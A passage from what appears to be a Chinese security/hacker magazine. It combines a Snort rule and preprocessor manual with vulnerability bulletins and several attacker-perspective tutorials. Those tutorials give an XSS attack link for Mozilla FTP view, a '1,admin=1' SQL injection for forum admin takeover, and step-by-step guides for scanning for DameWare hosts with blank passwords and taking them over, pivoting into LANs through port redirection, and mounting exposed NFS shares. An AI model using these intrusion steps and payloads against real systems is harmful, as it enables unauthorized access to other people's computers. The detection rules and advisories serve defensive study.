| non-standard-protocol | 察觉到不标准的协议事件 |
| rpc-portmap-decode | RPC 问题 |
| successful-dos | 拒绝服务 |
| successful-recon-largescale | 大规模消息泄露 |
| successful-recon-limited | 信息泄露 |
| suspicious-filename-detect | 检测到令人怀疑的文件名 |
| suspicious-login | 检测到怀疑的用户名登陆 |
| system-call-detect | 检测到系统调用 |
| unusual-client-port-connection | 客户端使用不常用的端口 |
| web-application-activity | Web 应用程序潜在的危险 |

## 表 4 低优先级分类 - 优先 3

| 分类 | 描述 |
|---|---|
| icmp-event | 属于 ICMP 事件 |
| misc-activity | 杂项活动 |
| network-scan | 检测到网络扫描 |
| not-suspicious | 不容易怀疑的传输 |

# ADMINISTRATOR CLUB

栏目编辑 苏樱 suying@hacker.com.cn

| protocol-command-decode | 属于协议命令编码 |
|---|---|
| string-detect | 检测到怀疑的字符串 |
| unknown | 未知传输 |

```
alert TCP any any -> any 80 (msg: "EXPLOIT ntpdx overflow";
    dsize: > 128; classtype:attempted-admin; priority:
    10 );
alert TCP any any -> any 25 (msg:"SMTP expn root"; flags:A+;
    content:"expn root"; nocase; classtype:attempted-recon;)
```
例 24: Example Classtype Rules

## 类型

- `session`: 设置关闭规则，日志会话中的数据包
- `host`: 标签来自主机的数据包并激活日志
- `count`: 统计指定单元数量。单元指定在 `<metric>` 字段中。
- `metric`: 
  - `packets`: 为 `<count>` 数据包标签主机/会话
  - `seconds`: 第二次为 `<count>` 数据包标签主机/会话
- `direction`: 只能在 `content` 中使用“host”标志。使用“src”和“dst”告诉标签来自哪个 IP 地址的数据包造成警报日志的。

### 29. Priority

`Priority` 标示指定规则的严格优先等级。一个 `classtype` 规则指定的是默认的优先等级，你可以用 `priority` 规则撤消。例 24 是联合分类规则一起的例子。只使用 `priority` 看例 25。

#### 格式

```
priority: <priority integer>;
alert TCP any any -> any 80 (msg: "WEB-MISC phf attempt"; flags:A+;
    content: "/cgi-bin/bash"; priority:10;)
```
例 25: Example Priority Rule

```
alert tcp !$HOME_NET any -> $HOME_NET 143 (flags: A+;
    content: "|e8 c0ff ffff|/bin/sh"; tag: host, 300, packets, src;
    msg: "IMAP Buffer overflow, tagging!");
alert tcp !$HOME_NET any -> $HOME_NET 23 (flags: S;
    tag: session, 10, seconds; msg: "incoming telnet session");
```
例 26: Tag Keyword Examples

### 30. Uricontent

`Uricontent` 规则允许只查找匹配 URL 部分的请求。它让规则只搜索除来自服务器数据文件误警报之外的请求部分的攻击。这个功能的参数描述看 `content` 规则选项部分。

#### 格式

```
uricontent: [!] "<content string>";
```

### 31. Tag

关键字 `tag` 允许规则日志多于仅仅单一的数据包触发规则。规则触发之前需要添加传输源主机“tagged”。被标示的网络传输被允许分析响应代码和记录攻击传输日志。例 26 是用法。

#### 格式

```
tag: <type>, <count>, <metric>, [direction]
```

## 32. IP proto

关键字 `ip_proto` 允许对 IP 协议头进行检查。协议名字在协议列表中指定出来，看 `/etc/protocols`。注意：要在规则中指明使用 IP 协议。

#### 格式

```
ip_proto: [!] <name or number>;
alert ip !$HOME_NET any -> $HOME_NET any (msg: "IGMP traffic detected";
    ip_proto: igmp; )
```
例 27: IP Proto Example

### 33. Same IP

关键字 `sameip` 允许规则检查源 IP 是否与目的 IP 相同。

#### 格式

```
sameip;
alert ip $HOME_NET any -> $HOME_NET any
(msg: "SRC IP == DST IP"; sameip;)
```
例 28: Same IP Usage Example

```
http_decode: <port list> [ -unicode ] [ -cginull ]
preprocessor http_decode: 80 8080 -unicode -cginull
```
例 30: HTTP Decode Directive Format Example

## 四、Preprocessors

预处理程序从 Snort 版本 1.5 开始引入，使得 Snort 的功能可以很容易地扩展，用户和程序员能够将模块化的插件方便地融入 Snort 之中。预处理程序代码在探测引擎被调用之前运行，但在数据包译码之后。通过这个机制，数据包可以通过额外的方法被修改或分析。使用 `preprocessor` 关键字加载和配置预处理程序，在 Snort 规则文件中的 `pre-processor` 指令格式如下：

```
preprocessor <name>: <options>
preprocessor minfrag: 128
```
例 29: Preprocessor Directive Format Example

### 1. Minfrag

`Minfrag` 预处理程序检查给定尺寸限制的分片数据包。数据包被分片通常是由源主机和目的主机之间的路由器引起的。一般说来，商业网络设备不会产生小于 512 字节的分片包。所以我们可以利用这个事实，来监控含有小分片的流量，这些分片通常是由某人为了隐藏在分片之中的信息而产生的。

#### 格式

```
minfrag: <threshold number>
```

### 2. HTTP Decode

`HTTP Decode` 用于处理 HTTP URL 字符串，将串中的数据转化为可读的 ASCII 字串。可以击败隐蔽的 Web URL 扫描器和通过 HTTP 入侵的入侵者，如果不对 HTTP 流量内容进行行为分析，这些攻击手段可能漏网而不会被检测出来。该预处理程序模块使用 HTTP 端口号（通常是 80 或 8080）作为其参数。

对 unicode 传输和空字节 cgi 可以通过 `-unicode` 和 `-cginull` 选项关闭警报。

#### 格式

### 3. Portscan Detector

Snort Portscan 预处理程序由 Patrick Mullen 开发，更多的信息可以在他的主页上找到。

Snort Portscan 预处理程序的用处如下：

- 向标准记录设备中记录从一个源 IP 地址来的端口扫描的开始端口和结束端口。
- 如果指定了一个记录文件，在记录扫描类型的同时也记录目的 IP 地址和端口。

端口扫描定义为在时间 T（秒）之内向超过 P 个端口进行 TCP 连接尝试，或者在时间 T（秒）之内向超过 P 个端口发送 UDP 数据包。端口扫描可以是对任一 IP 地址的多个端口，也可以是对多个 IP 地址的同一端口进行。现在这个版本可以处理一对一和一对多方式的端口扫描，下一个完全版本将可以处理分布式的端口扫描（多对一或多对多）。端口扫描也包括单一的秘密扫描 (stealthscan) 数据包，比如 NULL, FIN, SYNFIN, XMAS 等。如果包括秘密扫描的话，端口扫描模块会对每一个扫描数据包告警。为避免这种情况，可以在 Snort 标准发行版中的 `scan-lib` 文件里把有关秘密扫描数据包的小节注释掉，这样对每次扫描就只记录一次。如果使用外部记录特性，可以在记录文件中看到端口扫描的技术和类型。

### 模块参数：

- `network to monitor` - 监视端口扫描的目标网络以 `network/CIDR` 表示
- `number of ports` - 在探测期间访问的端口数目
- `detection period` - 以秒计数的端口访问时间限制
- `logdir/filename` - 告警信息存放的目录/文件名，告警也可以写入标准的告警文件中。

#### 格式

```
portscan: <monitor network> <number of ports>
<detection period> <file path>
preprocessor portscan: 192.168.1.0/24 5 7 /var/log/portscan.log
```
例 31: Portscan Preprocessor Configuration Example

### 4. Portscan Ignorehosts

由 Patrick Mullen 编写的另一个模块修改了端口扫描探测的系统操作。如果用户的服务器（比如 NTP, NFS 和 DNS 服务器）会妨碍端口扫描的探测，可以通知 `portscan` 模块忽略源自这些主机的 TCP SYN 和 UDP 端口扫描。该模块的参数为 IPs/CIDR 的列表。

#### 格式

```
portscan-ignorehosts: <host list>
preprocessor portscan-ignorehosts: 192.168.1.5/32
192.168.3.0/24
```
例 32: Portscan Ignorehosts Module Configuration Example

### 5. Defrag

这个模块已经不存在了。请参考 Frag2。

### 6. Frag2

`Frag2` 在 Snort 1.8 中被引入，它有一个新的 IP 延缓预处理程序。Frag2 设计来替代 Defrag 预处理程序。这个预处理程序使用了和 Snort 的其他部分相同的内存管理规则来设计内存处理。

Frag2 可以配置内存使用和碎片超时选项。如果不给任何选项，frag2 使用默认的内存限制 4194304 bytes(4MB)和超时 60 秒。

#### 格式

```
preprocessor frag2: [memcap <xxx>], [timeout <xx>],
[min_ttl <xx>],
    [detect_state_problems], [ttl_limit <xx>]
noinspect disable stateful inspection
timeout <seconds>
memcap <bytes>
detect_state_problems
min_ttl
ttl_limit
```
例 33: Frag2 preprocessor configuration

## 五、输出模块

输出模块是版本 1.6 的新特性。这个模块使得 Snort 在向用户提供格式化输出时更加灵活。输出模块在 Snort 的告警和记录子系统被调用时运行，在预处理程序和探测引擎之后。规则文件中指令的格式非常类似于预处理程序。注意：如果在运行时指定了命令行的输出开关，在 Snort 规则文件中指定的输出模块会被替代。例如，如果在规则文件中指定了 `alert_syslog` 模块，但在命令行中使用了 “-A fast” 选项，则 `alert_syslog` 模块会被禁用而使用命令行开关。在规则文件中通过指定 `output` 关键字，使得在运行时加载输出模块。

```
output <name>: <options>
output alert_syslog: LOG_AUTH LOG_ALERT
```
例 34: Output Module Configuration Example

### 1. Alert_syslog

该模块向 syslog 设备发送告警（很像命令行中的 -s 开关）。该模块也允许用户指定记录设备，优先于 Snort 规则文件中的设定，从而在记录告警方面给用户更大的灵活性。

- LOG_CONS
- LOG_NDELAY
- LOG_ERROR
- LOG_PID
- LOG_AUTH
- LOG_AUTHPRIV
- LOG_DAEMON
- LOG_LOCAL0
- LOG_LOCAL1
- LOG_LOCAL2
- LOG_LOCAL3
- LOG_LOCAL4
- LOG_LOCAL5
- LOG_LOCAL6
- LOG_LOCAL7
- LOG_USER
- LOG_EMERG
- LOG_ALERT
- LOG_CRIT
- LOG_ERR
- LOG_WARNING
- LOG_NOTICE
- LOG_INFO
- LOG_DEBUG

#### 格式

```
alert_syslog: <facility> <priority> <options>
```

### 2. Alert_fast

这将用快速的格式把 Snort 警报打印在输出文件中。这个快速警报模块并不需要打印出所有的数据包报头到输出文件中。

#### 格式

```
alert_fast: <output filename>
output alert_fast: alert.fast
```
例 35: Fast alert configuration

### 3. Alert_full

打印所有的数据包报头到 Snort 警报消息。这个警报将被写入默认的日志目录(/var/log/snort)或者使用命令行指定日志目录。

每一个 IP 将被创建一个目录，插入日志目录。Snort 创建这些相当慢。这种输出模块一般被禁止，除非在传输量很小的情况下。

#### 格式

```
alert_full: <output filename>
output alert_full: alert.full
```
例 36: Full alert configuration

### 4. Alert_smb

这个插件发送 WinPopup 警报消息给 NETBIOS 机器名使用指定输出插件的文件选项。这个插件要在 smbclient 使用一个可执行二进制文件，并且需要和 Snort 相同的权限。

#### 格式

```
alert_smb: <alert workstation filename>
output alert_smb: workstation.list
```
例 37: SMB alert configuration

### 5. Alert_unixsock

设置 UNIX domain socket，发送警报报告给它。外部程序/进程能够监听这个 socket 和实时返回 Snort 警报和数据包数据。这在当前只是实验阶段。

#### 格式

```
alert_unixsock
output alert_unixsock
```
例 38: UnixSock alert configuration

### 6. Log_tcpdump

`log_tcpdump` 模块将数据包记录到 tcpdump 格式的文件中。这便于使用已有的多种检查 tcpdump 格式文件的工具，来对收集到的流量数据进行后处理工作。该模块只接受一个参数，即输出文件名。注意：这个文件名将由“<月><日>@<时间>”组成。

#### 格式

```
log_tcpdump: <output filename>
output log_tcpdump: snort.log
```
例 39: Tcpdump Output Module Configuration Example

### 7. XML

XML 插件能够让 Snort 日志 SNML -simple network markup language aka (snort markup language)到一个文件或者网络。DTD 可以在 Snort 发行版本中的 contrib 目录，或者 http://www.cert.org/DTD/snml-1.0.dtd 中获得。你可以在你的网络中使用一个或多个传感器，使用这个插件来日志到一个中央数据库和建立高级入侵检测基础结构配置。这个插件同样将能让你的警报自动报告给 CERT 协调中心和你的反应小组，或者你的 IDS 管理员。

这个插件是 Led Pickel 和 Roman Danyliw 在 CERT 协调中心的一个 AIRCERT 项目中开发的。在 SNML DTD 的早期开发阶段经受了公共详细的修改。看 http://www.cert.org/DTD/snml-1.0.dtd 有最新的关于这个插件的信息和文档。

#### 格式

```
output xml: [log | alert], [parameter list]
```

#### 参数

- `[log | alert]`
  指定日志或者警报连接 XML 插件日志或警报设备。
- `[parameter list]`
  - `file`当只有它一个参数，它将日志记录到一个本地机器的文件。除此之外，如果使用 http 或 https（见 protocol），这个脚本将被远程主机执行。

- **protocol**：这些参数字段有：
    - **http**：用 HTTP 发送 POST 给 web 服务器。
    - **https**：像 http 一样，但使用 SSL 加密。
    - **tcp**：一个简单的 TCP 连接。你需要相同的监听类型。
    - **iap**：一个干扰警报协议工具。
- **host**：远程主机日志和发送端口连接。

**默认端口对应表：**

| Protocol | Default Port |
| :--- | :--- |
| http | 80 |
| https | 443 |
| tcp | 9000 |
| iap | 9000 |

**输出格式特性对比：**

| 格式 | Storage Requirements | Searchability | Human Readability |
| :--- | :--- | :--- | :--- |
| **hex** (默认) | 响应 hex 字符串二进制数据 | - | - |
| **base64** | - | - | - |
| **ascii** | - | - | - |

- **detail**：
    - full:
    - fast:
- **格式**：

```xml
xml: <output facility>
output xml: log, file=output
```

```bash
protocol=https
host=air.cert.org file=alert.snort cert=mycert.crt
key=mykey.pem ca=ca.crt server=srv_list.lst
```
例 40: XML output plugin setup examples

## 六、Writing Good Rules

为了开发最有效和注重速度的 Snort 规则，必须记住一些通用的概念。规则的内容选项（内容规则）是大小写敏感的（除非使用了“nocase”选项），而且许多程序通常使用大写字母来代表命令。FTP 是一个好例子。考察下面这两个例子：

```snort
alert tcp any any -> 192.168.1.0/24 21 (content: "user root"; msg: "FTP root login";)
alert tcp any any -> 192.168.1.0/24 21 (content: "USER root"; msg: "FTP root login";)
```

第二个规则可以捕获几乎每一个自动的 root 登录尝试，但是使用小写 user 的第一个规则就不能。

### 加速含有内容选项的规则

探测引擎运用规则的顺序和它们在规则中的书写顺序无关。内容规则选项总是最后一个被检验。利用这个事实，应该先运用别的快速规则选项，由这些选项决定是否需要检查数据包的内容。

例如：在 TCP 会话建立起来后，从客户端发来的数据包，PSH 和 ACK 这两个 TCP 标志总是被置位的。如果想检验从客户端到服务器的有效载荷，利用这个事实，就可以先进行一次 TCP 标志检验，这比式样匹配算法（pattern match algorithm）在计算上节约许多。使用内容选项的规则要加速的一个简便方法就是也进行一次标志检验，如例 41。基本思想是，如果 PSH 和 ACK 标志没有置位，就不需要对数据包的有效载荷进行检验。如果这些标志置位，检验标志而带来的计算能力消耗是可以忽略不计的。

```snort
alert tcp any any -> 192.168.1.0/24 80 (content: "cgi-bin/phf"; flags: PA; msg: "CGI-PHF probe";)
```
例 41: Using TCP Flag Tests to Hasten Content Rules

# 漏洞公告板

## OpenBSD select 调用的边界检查缺陷允许执行任意代码

**漏洞内容：**
OpenBSD 被发现由于在 select 调用中缺乏充足的边界检查，允许攻击者覆盖目标系统的内核内存，并在内核上下文中执行任意代码。通常 select 系统调用的 size 参数是一个带符号型整数。内核在带符号 context 中求上边界检查的值时，攻击者可使用一定的负数值绕过其检查。

当内核为 select 系统调用从 userland 拷贝数据时，size 参数如被作为一个无符号整数使用将会导致内核内存被任意数据所覆盖。本地攻击者利用此缺陷能够获得系统的完全控制权限，并绕过系统提供的其它的安全措施。

## FreeBSD NFS 服务器远程拒绝服务缺陷

- **涉及程序**：FreeBSD rpc.nfsd

**漏洞内容：**
Network File System (NFS) 允许主机输出部分或全部文件系统，使网络中的其它主机就像在本地机器上一样访问和安装这些资源。NFS 是在 Sun 远程过程调用 (RPC) 框架的基础上开发的，FreeBSD 发布中也提供了 NFS 服务器，但缺省未打开。

由于 FreeBSD NFS 服务器负责处理输入的 RPC 信息的一部分代码存在一安全缺陷，服务器接到长度为零的负载 (payload) 时就会从以前的信息中引用该负载，出现信息链循环，并且随后会导致另外一部分试图遍历该链的 NFS 服务器代码出现死循环。向受影响的 FreeBSD 系统发送 RPC 信息的攻击者可以通过构造一系列恶意 RPC 信息导致目标系统锁死。

某些 NFS 的 Linux 实现在一定情况下会产生长度为 0 的 RPC 信息。正在运行 NFS 服务器的 FreeBSD 系统在收到这种客户端连接时系统会被锁死。

## Sun Solaris gfxres/pgxconfig 本地缓冲区溢出缺陷

- **涉及程序**：gfxres/pgxconfig

**漏洞内容：**
gfxres 和 pgxconfig 是 Sun Solaris 系统所带的两个对 PGX32 显卡进行配置及其他操作的应用程序。gfxres 和 pgxconfig 存在缓冲区溢出漏洞，本地攻击者可能获取 root 权限。

/usr/openwin/bin/gfxres 和 /usr/sbin/pgxconfig 在处理某些命令行参数时没有对参数长度进行检查，如果攻击者提供一个超长的参数，就会发生基于堆栈的缓冲区溢出。攻击者可能覆盖堆栈中某些重要的内存数据，并以 root 权限执行任意代码。

## Mozilla FTP View 跨站脚本执行缺陷

**漏洞内容：**
Mozilla 是一款流行的 Web 浏览器。Mozilla 在使用 'FTP view' 功能时存在问题，远程攻击者可以利用这个漏洞进行跨站脚本执行攻击。Mozilla 的 'FTP View' 功能在处理 URL 时对 HTML 字符缺少正确的检查，远程攻击者可以构建包含恶意脚本代码的 FTP 链接，当用户查看此链接时可导致恶意脚本代码在用户浏览器上执行。当 FTP 服务器和 HTTP 服务器地址相同时，由于 COOKIE 信息不会改变，就可以导致用户基于 COOKIE 认证的信息泄露。

**攻击代码：**
```html
<a href="ftp://[FTPserver]/#%3C%2ftitle%3E%3Cscript%3Ealert(%22exploit%22);%3C%2fscript%3E">Exploit</a>
```
例：
```html
<a href="ftp://ftp.mozilla.org/#%3C%2ftitle%3E%3Cscript%3Ealert(%22exploit%22);%3C%2fscript%3E">Exploit</a>
```

## Win2k 系统分区的缺省文件属性允许攻击者非法获得系统权限

**漏洞内容：**
在 Windows 2000 中为了保护系统分区根目录下的一些重要的系统文件（像 boot.ini, ntdetect.com, ntlldr, autoexec.bat 等），NTFS 系统提供的安全模板仅允许管理员和高级用户去访问这些文件。

因为 POSIX 兼容性的原因，在 NTFS 文件系统中如果用户对某个文件夹具有完全控制权限，那么他将能删除文件夹下的任意文件，而不管用户对此文件是否有权限。因为这个原因，攻击者如果对某个文件夹具有完全控制权限，就可以通过实现下列几步操作获得系统分区根目录下任意重要文件的完全控制权限：

- 1. 删除初始目标文件；
- 2. 以被删除文件的文件名建立一个新的文件。攻击者已经是新文件的所有者，并且通过继承 root 文件夹的属性获得了对文件的完全控制权限。

攻击者可利用这个缺陷获得系统级别的访问权限，然后再进一步在登陆用户的 context 中运行恶意指令或安装特洛伊木马。

**攻击方法：**
攻击者如果对某个文件夹具有完全控制权限，就可以通过实现下列几步操作获得系统分区根目录下任意重要文件的完全控制权限：
- 1. 删除初始目标文件；
- 2. 以被删除文件的文件名建立一个新的文件。攻击者已经是新文件的所有者，并且通过继承 root 文件夹的属性获得了对文件的完全控制权限。

**解决方案：**
将系统分区中所有 root 权限文件夹原来的完全控制权限用恰当的权限来代替。安装 hisec*.inf 安全模板并不能解决这个问题。

## MCMS 的三个安全缺陷允许拒绝服务攻击/执行任意指令

**漏洞内容：**
MCMS (Microsoft Content Management Server) 是一种企业级 Web 内容管理系统。不幸的是最近 MCMS 2001 被发现由于缺乏对缓冲区的正确检验，存在三个安全缺陷，最严重的一个能使攻击者在目标系统上执行任意指令：

- 1. 在实现用户身份验证的一个低级函数中存在一个缓冲溢出缺陷。在 MCMS 2001 中，可以将一个网页直接作为输入递交给这个低级函数，但是这也无疑给了攻击者一个覆盖缓冲区的机会。如果成功利用此缺陷的话，可使 MCMS 崩溃，或者在 MCMS 服务的 context 中运行任意指令。如果在服务器上安装、配置一个 URLScan 工具，攻击者仅仅能够利用此缺陷进行拒绝服务攻击。
- 2. 这个漏洞是由允许上传和下载文件到服务器上的一个函数的两个缺陷共同作用引起的。第一个是由允许用户上传文件而进行身份验证的函数引起的。第二个是由于覆盖了上载文件的空间所致：在这个空间里，函数应该仅仅允许上载文件到自己有权限的文件夹下，但是攻击者可以上传文件到允许无权限用户上载文件的临时文件夹下，从而将这个空间覆盖。通过一前一后地利用这两个缺陷，攻击者可上载 .ASP 文件或其它文件到服务器上，并运行上载的恶意文件。利用这个缺陷并不要求攻击者具有服务器的管理员权限。
- 3. 在 MCMS 中一个请求图形文件和其它资源的函数存在 SQL injection 缺陷。成功利用此缺陷，攻击者能够在服务器上执行 SQL 指令。虽然不能在 MCMS 数据库中增加、改变或删除数据，不过可在服务器上运行操作系统指令。利用这个缺陷并不要求攻击者具有服务器的管理员权限，只要具有域用户权限即可。

## UT (UltraThreads v5.07) 论坛漏洞分析
文/shocker

闲来无事，便看看 UT 论坛的源代码。在 analyst 的指点下，终于装上了 DBI 模块，原来要直接在 PERL/BIN 目录下输入 `PPM INSTALL DBI` 才能进行安装。

首先，看看注册页面 `user_register.cgi`，然后再调用 `user_register_x.cgi` 执行用户提交的信息。我们来看一下 `user_register_x.cgi` 文件是怎么写的：

```perl
# Check if it is the first user (= admin)
$query = "SELECT COUNT(*) FROM ut_users";
$sth = query($query);
my ($userNum) = $sth->fetchrow_array();
$sth->finish;
my $admin = $userNum ? 0 : 1;
```

在用户注册的时候，它统计用户数，如果不是 0 的话，就令 `$admin` 这个变量等于 0，也就是说不是管理员。但是我们也因此知道了，判断是否管理员是由 0 和 1 区分的。我查看了一下它的用户表结构，果然有一个字段是 admin，而且默认值是 0。

继续找……我又到用户属性修改页面 `user_options.cgi`，发现用户属性修改表单提交给 `user_options_x.cgi` 执行。经过分析发现，有一个重大漏洞可以使用户提交非法信息提升自己为管理员。

```perl
# Get CGI parameters (得到用户提交的属性修改信息)
my $cgi = new UTCGI;
$cgi->truncated and userError($lng{'errAttSize'});
my $userId = int($cgi->param('id'));
my $password = $cgi->param('password') || "";
# ... (此处省略部分变量获取代码)
my $postsAge = $cgi->param('postsAge'); (注意此处!!!)
my $editWidth = int($cgi->param('editWidth'));
my $editHeight = int($cgi->param('editHeight'));

# Quote strings (这里把一些变量加上了引号)
my $passwordQ = quote($password);
# ... (此处省略部分引用代码)

# Update user (向数据库中插入修改数据)
$query = "
    UPDATE ut_users SET
        password = $passwordQ,
        email = $emailQ,
        # ... (此处省略部分字段)
        postsAge = $postsAge,
        lastIp = '$ip',
        lastRealIp = '$realIp'
        WHERE id = $optUserId";
$dbh->do($query) or dbError();
```

看来过滤得不是很完全，大概可以用 SQL Injection。再到论坛的用户属性修改界面，发现设置显示多少天的帖子那里是下拉式菜单。下拉式菜单提交的变量很容易被程序编写者忽略，得不到很好的过滤。查看源代码：

```html
<select name=postsAge class=selStyle>
<option value='1,admin=1'>显示昨天以来的帖子</option>
<option value='2'>显示二天以来的帖子</option>
<option value='30' selected>显示三十天以来的帖子</option>
</select>
```

VALUE 是整型数，而 `user_options_x.cgi` 中得到名为 `$postsAge` 的变量并没有用 `int` 函数。如果在查询语句中直接写 `postsAge = $postsAge`，如果我把 `$postsAge` 的值提交成 `1,admin=1`，查询语句就变成 `postsAge=1,admin=1`，这样在修改用户表的同时修改了 admin 字段的值为 1。

PS: 本来无意发布，后发现 UT 新版已经解决了该问题，所以还是说明一下。

声明: 由于 UT 是商业脚本，我只是说了一下造成漏洞的原因，并没有写任何攻击程序，所以利用本文造成的后果自负。如果你想了解更多的 CGI 安全方面的问题，请访问我们 C4 小组主页 http://www.China4Iert.ORG。

## 6129 安全吗?

提起6129端口，很多朋友不一定知道，其实它是DameWare NT Utilities的服务端连接端口。先来简单地为大家介绍一下DameWare NT Utilities（下面简称DWRCC），它是一套运行在NT平台下功能强大的远程控制工具，安装使用都很方便（大家可以去www.dameware.com下载30天的试用版本），使用它你能很方便的远程操作你的计算机，但在安全方面DWRCC只要有一个远程主机的有权限的账号，就能使用它远程GUI下登录交互控制主机。就目前，还有很多的计算机使用者并不是很注意账号、口令的安全，用123、1111、abc甚至口令为空的大有人在，这就给入侵带来了方便，下面笔者从黑客角度为大家详细分析黑客怎样对6129端口进行入侵的。

- 所需工具:
- SuperScan (速度快而且使用方便的端口扫描仪)
- X-Scan (探测弱口令的好工具)
- DameWare NT Utilities (目前最新的是V3.51版)

好，这就开始。先打开SuperScan，在端口列表里添加一个6129（SuperScan的使用这里就不介绍了，有关的文章也很多）。回到主界面，在IP里填入要扫描的地址段，点击开始。不一会儿扫描完毕，点击展开所有，看扫到一个61.XXX.XXX.XXX（图1）。接下来就要用X-Scan了（图2），在X-Scan的设置里点击扫描模块，选择NT-Server 弱口令（图3），然后点击扫描参数。在指定IP范围里填上刚才扫描到的IP（图4），其他设置可以为默认。设置完毕，点击开始扫描，X-Scan 就开始猜测弱口令。可能需要一点时间，等猜测全部完成后，点击扫描结果，查看出来的结果，Administrator 的口令为空（图5）。马上打开DWRCC（图6），点击File菜单下的Connect选项，弹出Remote connect对话框，在IP Address/Host Name/Machine一栏里填入扫描到的IP地址，Authentication一栏里选择Windows NT Challenge/Response，去掉Use Current Logon Credent前面的勾，在User一栏里填上Administrator，Password一栏就不用填了，因为是空的（图7）。好！点击Connect，一会儿就连上了。怎么样，是不是和操作自己电脑一样啊（图8）？决不输给Win2000的终端服务器，而且比起Win2000的终端服务器，DWRCC还多了很多功能，比如文件传输、锁住远程的键盘和鼠标等。不过这里还要提醒大家一点，当你连接到对方电脑时一定要注意，因为DWRCC不像Win2000的终端服务器是多用户界面的，也就是说你连着对方机器的同时对方可能正在使用电脑，你能看见对方的一举一动，同样对方也能看见你在他的机器上做什么，不想被发现，就要小心了！

接下来还要为大家介绍DWRCC的一些简单设置，通过这些设置，可以帮助大家更快速地连接对方电脑。点击File菜单下的Connect选项弹出Remote connect（图7），点击Settings，在Remote Options里把compression（压缩）选为最高 (Maximum)（图9）。然后我们点击Display Options，把grayscale（黑白）勾上，这样放弃了彩色，换来了速度。不过，如果你的网速够快，就选Force 32 bit disp（32位色）吧（图10）。

最后提醒那些正在使用DWRCC的朋友们，赶快给系统设个复杂一点的账号口令吧！

# CASE ANALYSIS
栏目编辑 > Heihoo > heihoo@hacker.com.cn

## 案例 分 析
栏目编辑 > Heihoo > heihoo@hacker.com.cn

## 从一次简单的局域网入侵
文/秋池飞叶

### 看内网安全
局域网 (local area network)，简称LAN，是处于同一建筑、同一大学或者方圆几公里地域内的专用网络。局域网常被用于连接公司内办公室或工厂里的个人计算机和工作站，以便共享资源，节约费用。但是，很多人认为处在局域网内就可以高枕无忧，其实那是大错特错的。

局域网多数是通过一个代理服务器或网关连上Internet 的，所以，如果我们能够入侵那台服务器（或网关），我们就有可能入侵到它的内部网络。

作为代理服务器（或网关）通常有两个或两个以上的IP地址。一个是Internet上的真实IP（如218.14.156.8），这个IP 在Internet 上是能够访问的；另一个是内部IP（如192.168.0.1），这个IP是虚拟的，在Internet 上并不存在，我们不能直接访问。也就是说，局域网里的分机都会受到代理服务器或网关的保护。

例如，有这样一个局域网（图1）：服务器的IP 为 202.99.1.1，其内部有一些分机，内部分机的IP 我们暂不知道（不过通常为 192.168.0.X）。

首先，假如我们已经取得 202.99.1.1 的 Administrator 的密码，通过 IPC$ 打开 Telnet 服务并 Telnet 上 202.99.1.1。执行 ipconfig 命令，得出其两块网卡的 IP 分别为 192.168.0.1 和 202.99.1.1，那么其他的机器的IP 应该就在 192.168.0.X 这个网段。在 202.99.1.1 上安装流光4.7的sensor（其实x-scan也可以，而且x-scan 能够扫描的漏洞比流光多。不过操作起来就有点麻烦，你要先上传x-scan到主机，再telnet上去利用x-scan的命令行模式扫描，所以这个telnet 终端不能断开，也就是说你要等到x-scan 扫描完了才能断开telnet，否则就会中断扫描），主要是寻找内部网的漏洞。根据我的经验，内部网的机器的安全性极差！administrator 的密码很弱智，多数为空或123、123456等！而且有许多分机的guest账号都是Administrators 组的成员，总之就是漏洞重重！

分析内部网络的漏洞后，就利用“端口重定向”来入侵。

所谓端口转向功能，就是将对某个端口的请求转向到其他电脑上。假设某一分机的内部IP 是 192.168.0.2，经过流光的扫描知道 Administrator 的口令为 123，并且开放 Telnet 和 3389 服务，主机的外部IP 是 202.99.1.1。在 202.99.1.1 上运行了一个端口转向的程序（Fpipe.exe），经过参数设置（如图2），这个程序先在 202.99.1.1 开 23 端口并监听，当有请求连接时，创建一个socket，通过 22 端口把请求发送到 192.168.0.2 的 23 端口去。所以，当有人向主机 202.99.1.1 的 23 端口发送 Telnet 连接的请求时，端口转向程序就发生作用了，马上将这个请求转向到那台 192.168.0.2 分机上的 23 端口去，因为 192.168.0.2 开放 Telnet 服务，所以这台分机会马上作出回应，这样连接就会产生了，也就是说攻击者已经入侵到内网的分机。

由此可以看出，只要我们的机器连上网，无论是直接上网，还是通过网关上网，都有被入侵的可能。因此，日常防范意识需要加强，防范工作不可轻视。

## 利用 NFS 漏洞
文/清风逍遥

UNIX 主机中的 NFS 如果配置不当将是黑客入侵系统的大门，下面看看黑客是怎么入侵的。

众所周知，NFS 是网络文件系统（Network File System）的简称，是分布式计算系统的一个组成部分，实现在异种网络上共享和装配远程文件系统，从用户角度看来，在这些远程的文件系统操作和本地的文件系统上操作并没有什么不同。现在大多数的 UNIX 用的是其第三版，它依赖于 RPC 服务。允许客户主机远程访问其文件系统的服务器都要小心，因为 NFS 的配置不当也会导致被攻击。

首先很多的 MOUNTD 和 NFS 漏洞已经被发现了，NFS 提供的安全性都依赖于文件句柄，如果能探测到一个系统的文件句柄，攻击者就可以轻易访问主机。

下面就给大家一个攻击实例，让大家看看一个配置不当的 NFS 系统是如何被利用的。我们需要 NFSshell，在 ftp://ftp.cs.vu.nl/pub/leendert/nfssshell.tar.gz 可以下载到。

我用 Rpcinfo 命令扫查看一台 UNIX 主机，发现了这样的数据：
```
100005 1 UDP 32845 MOUNTD
100005 2 UDP 32845 MOUNTD
100005 3 UDP 32845 MOUNTD
100005 3 UDP 32845 MOUNTD
100005 1 TCP 32811 MOUNTD
100005 2 TCP 32811 MOUNTD
100005 3 TCP 32811 MOUNTD
...........
```
凭感觉，这个信息可以利用，但是对它又不熟，所以查了一下，得到了这个漏洞的说明。既然有了资料，那就开始动手吧。
```
SHOWMOUNT -E XXX.XXX.XXX.XXX
EXPORT LIST FOR XXX.XXX.XXX.XXX
```
### 攻击分析实例
```
/ (EVERYONE)
/USR (EVERYONE)
```
SHOWMOUNT 的结果指明了整个/和/USR 文件系统都出口到任意主机，攻击者只需要远程安装这个/和/USR 文件系统，就能访问它们了，具体只受权限影响。

大多数的 UNIX 中都有 MOUNT 命令可用，你可以运行 MAN MOUNT 看看帮助，因为不同版本的可能用法不太一样。

我们用 MOUNT XXX.XXX.XXX.XXX://MNT 将 XXX.XXX.XXX.XXX 的根目录安装到本地的 /MNT 安装点上。

发现这种漏洞的一个更好的程序是 NFSshell，我们要先输入对哪个安装主机感兴趣，以下的被攻击主机都是本人自己虚拟的网络环境：
```
NFS>HOST DEX
USING A PRIVILEGED PORT(1022)
OPEN DEX(192.168.0.1) TCP
```
